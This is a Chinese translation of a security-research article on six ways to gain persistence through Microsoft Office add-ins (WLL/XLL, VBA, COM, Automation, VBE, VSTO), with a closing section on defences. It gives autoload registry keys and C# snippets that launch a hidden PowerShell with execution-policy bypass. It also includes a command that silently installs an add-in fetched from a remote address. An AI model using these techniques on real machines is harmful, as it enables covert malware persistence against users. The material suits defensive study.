

# 【技术分享】利用Office插件实现恶意程序持久化


                                阅读量   
                                **99982**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：labs.mwrinfosecurity.com
                                <br>原文地址：[https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/](https://labs.mwrinfosecurity.com/blog/add-in-opportunities-for-office-persistence/)

译文仅供参考，具体内容表达以及含义原文为准

[](./img/85966/t01b236fe046e2576c0.jpg)

翻译：[running_wen](http://bobao.360.cn/member/contribute?uid=345986531)

预估稿费：200RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

<br>

**前言**


对于攻击者而言，通常攻击目标的pc环境中都会有Office软件。既然用的人多，利用Office来实现持久化当然就是个不错的选择了。

下面讨论以下6种机制来实现持久化，并讨论每种方法的优缺点：①利用WLL,XLL插件；②利用Excel与PowerPoint的VBA插件；③利用Office的com插件；④.利用Excel的Automation插件；⑤利用Office中VBA editor插件；⑥利用VSTO插件。

以上6种持久化技术均在office 2013上测试成功，测试操作系统为win7、8.1、10。

<br>

**利用WLL，XLL插件**

[](https://labs.mwrinfosecurity.com/publications/one-template-to-rule-em-all/)

[Kostas](https://labs.mwrinfosecurity.com/publications/one-template-to-rule-em-all/)等人利用office模板实现持久化的关键是受信任位置(Trusted Locations)这一理念。在这些目录下的文件，文件中的VBA代码不受通常的宏设置的影响，在宏被禁用的情况下，里面的代码仍然能够在不告警的情况下执行。进一步的研究发现，一些特定的受信任位置，普通用户也具有写权限并且能够用于放置基于DLL的插件。

<br>

**利用Word的WLL插件**


Word的三个受信任位置如下图1所示 。可以看出受信任位置有template(模板)的，也有StartUp（启动的）。

[](https://p0.ssl.qhimg.com/t013dc42b98a4adde2b.png)

图 1 word受信任位置

进一步深挖发现，受信任位置“StartUp”可以用来放置wll后缀的word插件。该后缀的文件在word97中就有了，现在的word中仍然支持它，不过如何生成这样的文件资料甚少。仔细研究后发现，该文件实质上还是dll文件，套了wll后缀而已。这也就意味着wll文件支持基本的DLL功能，因此我们直接将dll文件的后缀改为wll，并将得到的文件放到受信任位置“StartUp”下，这样word启动时，就能执行任意代码了。而所有这些操作低权限的用户即可完成。

图2为利用wll插件启动calc.exe后的截图，可以看出calc.exe作为Word(进程为winword.exe)的子进程在运行。

[](https://p0.ssl.qhimg.com/t01cba74f6c4caf4ac5.png)

图 2 利用wll插件启动calc.exe

测试时有个坑需要注意，使用msfvenom生成的dll执行后word会崩溃，自己用C++编写个dll，并把执行的代码放在入口函数DllMain中word就不会崩溃，代码执行后word能够继续运行。

比较有意思的是，WLL插件能够自动加载，里面的代码能正常执行，但在word加载项中却显示为非活跃应用程序加载项目，如图3所示。也正因为这样，在word的信任中心禁用word插件并不会警用WLL插件。

[](https://p2.ssl.qhimg.com/t0149d9aafbf48a66b5.png)

图 3 WLL插件在加载项中的显示

<br>

**利用Excel的XLL插件<br style="text-align: left">**


Excel 用XLL插件来扩展自身功能。与WLL插件在word启动时自动加载不同，需要对注册表特定的key添加一个属性来让Excel加载相应的XLL插件。Key的位置为：

```
HKEY_CURRENT_USERSoftwareMicrosoftOffice15.0ExcelOptions
```

需要添加的属性为“OPEN”，其值设置为“/R FileNameOfAddin.xll”。如图4所示：

[](https://p0.ssl.qhimg.com/t019c12fd0d652f24f4.png)

图 4 添加“OPEN”属性

Excel默认会搜索“%appdata%MicrosoftAddIns”目录，因此上图OPEN属性中插件并不需要使用绝对路径。不过有意思的是，该路径并未有在Excel的受信任路径中。这可能是因为受信任位置主要涉及VBA执行的安全控制。

Excel执行XLL插件的方式也与word使用WLL插件的方式不同。对每个配置好的XLL插件，Excel都会搜索其中的导出函数，并在适当的时候进行调用。比如，在程序首次加载时，Excel会搜索并调用xlAutoOpen函数。xlAutoOpen函数正如其函数名所暗示的，其行为与VBA的Auto_Open函数类似。

与word的WLL插件不同，XLL插件Excel的加载项中显示为活跃应用程序加载项目，并且可以在信任中心(Trust Center)中对其进行禁用。

优点：①普通用户可对Word的StartUp目录写文件，Excel中Options下的键值普通用户也可编辑；②Word的WLL插件可自动加载，而Excel也只需要修改注册表即可实现自动加载；③通过禁用应用程序插件并不能禁用WLL插件，而Excel的XLL插件禁用插件时会被禁用掉；④WLL插件在word加载项中显示为非活跃应用程序加载项，但却能正常运行。XLL插件则显示为活跃应用程序加载项；⑤可能用于虚拟桌面框架(Virtual Desktop Infrastructure ，VDI)的环境中。

缺点：①需要放置DLL文件到“%appdata%”目录下；②利用xll插件时需要修改注册表。

<br style="text-align: left">

**利用Excel与PowerPoint的VBA插件**


与word类似，Excel与PowerPoint中也有与word的StartUp类似的受信任位置。一个是针对所有针对整个系统的，一个是针对特定用户的。针对特定用户的受信任位置为“XLSTART”（针对Excel）与“AddIn”(针对Excel，PowerPoint)。

这些受信任位置原意并不是用来放置基于DLL的插件的，而是存放基于VBA的，并使用了非标准后缀的扩展文件的。

这种持久化机制基于与Kostas的利用模板实现持久化差不多。主要的不同在于，当VBA代码在模板文件中时，只有使用了改模板的文档才会导致VBA代码的执行。而VBA插件与事件挂钩，不管是Excel，还是PowerPoint只要打开文件触发了相应的事件，就会执行VBA插件中的代码，而与选用的模板没有关系。但VBA插件仅限于Excel于PowerPoint。

<br style="text-align: left">

**Excel VBA插件**


创建新的Excel文件，打开VBA编辑器(Ps:ctrl +F11)，选择“插入模块”（module），利用模块可以实现持久化，如图5所示：

[](https://p3.ssl.qhimg.com/t01084c34a3b65c52ad.png)

图 5 插入模块

保存文件为“*.xlam”或者“*.xla”格式，如图6所示。并将文件放入“%appdata%MicrosoftExcelXLSTART”目录，这样下次打开Excel时，插件即可自动运行。

[](https://p1.ssl.qhimg.com/t0146627d114bbebd7f.png)

图 6 保存为xlma格式

<br style="text-align: left">

**PowerPoint VBA插件**


PowerPoint的VBA插件创建方式与Excel的VBA插件创建方式大体相同，只需文件格式保存为“*.ppa”或者“*.ppam”,并将文件放入“AddIns”目录下(该目录通常的位置为“%appdata%MicrosoftAddIns”)，XLL插件使用的也是这个位置。

与Excel不同的是，PowerPoint插件默认不是自动加载的，但可以通过修改注册表实现自动加载。需要新建注册表项“HKEY_CURRENT_USERSoftwareMicrosoftOffice15.0PowerPointAddIns&lt;AddInName&gt;”。

需要注意的是，此处的15.0为office版本号，对应office 2013，不同版本office需进行相应的调整。该项主要包括以下键值对：“Autoload”(设置为1，实现自动加载)，Path(插件路径，插件名即可，无需绝对路径)，如图7所示：

[](https://p1.ssl.qhimg.com/t01b854abe7d2a7a225.png)

图 7 PowerPoint设置注册表项

**优点：**①不需要管理员权限；②Excel VBA插件能自动加载；③受信任位置能执行VBA脚本；④禁用应用程序插件，并不能禁用VBA脚本;⑤可以使用密码对插件的查看与编辑进行保护，但插件仍然会被执行；⑥有可能能用于VDI环境。

**缺点：**①需要忍受下写VBA代码的痛苦；②PowerPoint下，需要写注册表；③Excel、powerPoint都需要写文件到相应的目录。

<br>

**Office Com 插件**


另外一种创建插件的方式是Com插件。由于com插件的工作方式，能够创建一个所有office软件通用(包括outlook)的Com插件。例如，为了在运行office软件时执行代码。Com对象(文件名虽然为dll后缀，但与传统dll不同)必须在使用前在注册表中注册，主要也就是给windows通知该Com对象(如在HKEY_CLASSES_ROOT下设置相应的项)。注册过程由拥有“ComRegisterFunctionAttribute”属性的函数负责。

接着需要对该Com对象的使用进行相应的配置，包括创建包含三个属性的key,每一个Office软件要使用该Com对象，都需要设置这样的Key。Key的位置为：

HKEY_CURRENT_USERSoftwareMicrosoftOffice&lt;Program&gt;Addins&lt;AddInName&gt;

在上面的例子中，“LoadBehaviour”设置为3标识软件启动时自动加载该插件，“FriendlyName”对应插件的名字，如图8所示：

[](https://p1.ssl.qhimg.com/t0188a98b477ecdb609.png)

图 8 Outlook com插件注册表设置

为对应Offfice软件创建key的过程也可以有负责Com插件注册的函数负责。好处当然是能一步搞定咯。

为了让Office软件加载Com对象时能够被执行，其中一种方式就是将代码放在Office特有的“IDTExtensibility2”接口的“OnConnection”函数中。该接口负责插件相关的事件，如插件的加载（OnConnection）等。下面的代码展示了如何利用隐藏的Cmd窗口运行calc.exe。

```
public void OnConnection(object application, Extensibility.ext_ConnectMode connectMode, object addInInst, ref System.Array custom)
{
    /* snip */
    System.Diagnostics.Process process = new System.Diagnostics.Process();
    System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
    startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
    startInfo.FileName = "powershell.exe";
    startInfo.Arguments = "-ep bypass -C calc";
    process.StartInfo = startInfo;
    process.Start();
}
```

一旦Com插件创建完成，就可以使用regasm.exe进行部署了，regasm会调用注册函数。由于是对HKEY_CLASSES_ROOT进行些操作，因此要求有管理员权限，如图9所示：

[](https://p4.ssl.qhimg.com/t017689c0bfa0f5a78d.png)

图 9 利用regasm完成 Com插件注册

上图中，Outlook打开的时候就会加载插件，进而运行计算器程序。

**优点：**①一个com插件，多个office产品通用；②一条命令就能完事儿。

**缺点：**①需要放置com插件的dll文件，插件的注册与自动加载需要编辑注册表；②com插件注册需要管理员权限；③不适合VDI环境。

<br>

**Excel Automation插件**


Excel Automation插件是用来扩展Excel功能的，因此允许创建用户自定义函数。自定义函数也能够被执行，如使用公式“=SUM()”就是使用内建函数的一个例子。用户自定义函数存放在“Automation Add-Ins”下。Automation插件的创建方式与Com插件类似，但使用方式特殊。

与Com对象类似，Automation插件也有注册函数，注册函数里面也可以包含对注册表的操作（这样Excel会自动加载对应的Automation插件）。涉及的key位置为：

```
HKEY_CURRENT_USERSOFTWAREMicrosoftOffice15.0ExcelOptions
```

每一个Automation插件在OPENx属性中列出，其中x是数值，当有多个插件同时存在时，x会递增，如图10所示：

[](https://p1.ssl.qhimg.com/t018609fd4c00651387.png)

图 10 为Excel Automation插件配置注册表项

为了利用Automation插件实现持久化，我们只需要向相应的命名空间与类下定义函数即可，上图中命名空间为“InconspicuousAddIn”，类名为“ExtFunctions”（注册表中有涉及）。正常函数能做的事情，自定义函数也能做，还能执行任意命令。下面的用户自定义函数运行计算器程序后，计算选中的单元格的数目。

```
public double CountCellsRange(object range)
{
    System.Diagnostics.Process process = new System.Diagnostics.Process();
    System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
    startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
    startInfo.FileName = "powershell.exe";
    startInfo.Arguments = "-ep bypass -C calc";
    process.StartInfo = startInfo;
    process.Start();
    Excel.Range count = range as Excel.Range;
    return count.Cells.Count;
}
```

由于Excel Automaiton插件也是基于com的，因此实现持久化，可是使用与regasm.exe注册Com插件相同的语法注册Automation插件。Regasm注册后，插件就处于可用状态了，如图11所示：

[](https://p0.ssl.qhimg.com/t0196c6822af5cfa057.png)

图 11 Automation插件注册后状态

一旦用户自定义函数集成到了Excel中，攻击者还是需要以某种方式来触发命令执行。不幸的是，似乎并不能覆盖Excel本身的函数。而且，用户自定义函数仅仅在被调用的时候才会执行，如果之前被执行过了，并且运行结果保存在了文档中就不会再运行了。

因此，用户自定义函数需要被强制执行，使用VBA脚本即可实现。利用VBA脚步强制执行虽然并不理想，但是相对于在模板中利用VBA，或者利用插件来实现持久化，Automation插件实现持久化更难检测，毕竟很容易让人觉得自定义函数就是正常函数。图12为VBA代码片段实现持久化的一个例子。当Excel文件被打开的时候，一个单元格被选中，其内容被用户自定义函数的返回值替代。

[](https://p4.ssl.qhimg.com/t012fff6ae89a388f5e.png)

图 12 利用 VBA强制执行用户自定义函数

**优点：**①一条命令就可完成部署(regasm)

**缺点：**①com注册要管理员权限；②需要以某种方式调用用户自定义函数；③VDI环境中可能用处不大。

<br>

**VBE 插件**


不利用VBA，而利用VBA编辑器，其实也可以实现持久化。虽然有关创建VBE插件的文档很少，但同样也是基于Office’s "IDTExtensibility2"接口，也是基于Com对象的。通过Com对象，就能在如VBA编辑器启动的时候执行任意代码了。由于是基于Com的，因此同样可以使用regasm进行部署。涉及插件自动加载的注册表key位于

HKEY_CURRENT_USERSoftwareMicrosoftVBAVBE6.0Addins&lt;VBEAddIn.Name&gt;

该Key同样key包含一系列属性，”FriendlyName”标识注册的Com对象，“LoadBehaviour”设置为3让VBA编辑器启动的时自动加载该插件，如图13所示:

[](https://p5.ssl.qhimg.com/t018e823615b2adf3d4.png)

图 13 VBA编辑器插件的注册表设置

配置好的插件可以在VBA编辑器的外接程序管理器中看到，如图14所示：

[](https://p3.ssl.qhimg.com/t014047d8f5556c11cf.png)

图 14 VBE插件状态

**优点：**①创建插件，多个office产品能通用（一举多得）；②一条命令即可完成部署(regasm)

**缺点：**①需要用户打开VBA编辑器；②com注册需要管理员权限；③VDI环境中可能用处不大。

<br>

**VSTO 插件<br style="text-align: left">**


为了完整性，此处也提下Visual Studio Tools for Office(VSTO)。VSTO在office新版本中是Com插件的替代品，虽然前者还是能用。与Com插件不同的是，VSTO要求特定的运行时来安装，而默认是没有安装的。

用VSTO来实现永久化的一个点是利用“ThisAddIn-Startup”函数，该函数用于处理启动事件（如应用程序启动的时候模块加载时）。实例如下：

```
private void ThisAddIn_Startup(object sender, System.EventArgs e)
{
    System.Diagnostics.Process process = new System.Diagnostics.Process();
    System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
    startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
    startInfo.FileName = "powershell.exe";
    startInfo.Arguments = "-ep bypass -C calc";
    process.StartInfo = startInfo;
    process.Start();
}
```

VSTO插件利用的难点就在于部署。部分是因为需要特殊的运行时。如果没有被安装，可以使用Vstor_redist.exe进行静默安装，不过需要处理安全控制（需要避免被检测到）。

VSTO插件（*.vsto）可以使用VSTOInstaller.exe进行安装(它是运行时的一部分)，如图15所示：

[](https://p1.ssl.qhimg.com/t015b11d94b054cd798.png)

图 15 利用VSTOInstaller.exe安装VSTO插件

不幸的是，这会弹出确认安装的提示。虽然可以使用/s选项来静默安装，但这需要可信的证书发布者进行签名，否则安装会失败。安装提示如图16所示：

[](https://p3.ssl.qhimg.com/t01ae77a1b586773d05.png)

图 16 VSTO插件安装提示

有趣的是，VSTOInstaller.exe是微软签名的文件，插件的位置可以由URL指定(如"VSTOInstaller.exe /s /i [http://192.168.7.129/OutlookAddIn1.vsto](http://192.168.7.129/OutlookAddIn1.vsto))。乍看之下，会让人觉得如果有VSTO插件在使用，就可以用来绕过可能的应用白名单。不过Windows的信任模型限制了这种方式。虽然用户可能会信任在“Trusted Root”中信任一些CA，但是这种信任并不能用于让他们对软件进行更新。相反，有个单独的“Trusted Pulibsheer”（受信任发布者）保存着用着这种能力的CA。

**优点：**VSTOInstaller.exe是微软签名的程序，可用通过HTTP以静默的方式下载插件，尽管需要来源于可信的发布者。

**缺点：**①需要VSTO运行时；②没有可信发布者对插件签名就不能静默安装，尽管用户可能会把它当做正常应用来安装它；③VDI环境中可能用处不大。

<br style="text-align: left">

**恶意插件防护**


恶意的XLL、COM、Automation、VSTO插件都可以在应用程序的信任中心对插件进行禁用，也可以通过注册表完成，如图17所示：

[](https://p4.ssl.qhimg.com/t01b3a6f6319fb95078.png)

图 17 禁用插件

另外，如果需要使用插件，建议还是要有可信发布者进行签名，并禁用用户提醒。恶意插件安装的时候，用户提醒对可能的安全威胁提供的警告有限，用户仍然可能会选择启用内容（enable content），尤其是当用户打开之前信任的文档时。提示的情况如下如图18所示：

[](https://p4.ssl.qhimg.com/t016784e9275ed6895f.png)

图 18 用户安全提醒

尽管WLL、VBA插件被定义为插件，但是并不受信任中心的设置的影响。鉴于wll就是dll文件，这多少还是觉得有点诧异。

应对恶意WLL、VBA插件的最有效方式就是移除每个应用的StartUp类目录了（没有使用的话，ps:默认也为空）。如果使用了，至少对于Excel与PowerPoint可以考虑将需要的文件放在针对整个系统受信任的位置，并移除用户目录下的信任位置的文件。这样，攻击者需要提权才能使用针对整个系统的信任位置来实现持久化。这两种情况下，组织可以对信任位置的权限进行限定，来防止用户添加或编辑已经存在的文件。

我们也建议机构也需要有对恶意插件的检测能力。核心的三个方面是检查并验证文件系统中信任位置的内容，对负责插件加载的相关注册表进行审计，监控非标准程序的关系(如检查由office启动的程序）。

<br>

<br style="text-align: left">
